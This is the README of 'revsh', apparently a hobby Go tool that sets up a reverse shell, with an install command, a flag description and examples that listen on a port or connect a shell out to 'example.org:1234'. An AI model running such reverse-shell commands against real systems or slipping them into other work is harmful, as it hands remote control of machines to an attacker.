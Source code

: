 revsh
=====

revsh establishes a reverse shell connection using two modes.

The client mode (default) executes a shell and pipes it's I/O to ADDR.

The server mode ("-l" flag) binds incoming connections on ADDR with standard
input.

Usually the server mode is used at a local host while the client mode is used at
a remote host.

Installation
------------

	$ go get github.com/mewmew/playground/revsh

Documentation
-------------

Documentation provided by GoDoc.

- [revsh][]: Establish a reverse shell connection using two modes.

[revsh]: http://godoc.org/github.com/mewmew/playground/revsh

Usage
-----

	revsh [OPTION]... ADDR

Flags:

	-l (default=false)
		Listen for incoming connections.

Examples
--------

1. Listen on port 1234.

		revsh -l :1234

2. Connect to server at "example.org" on port 1234.

		revsh example.org:1234
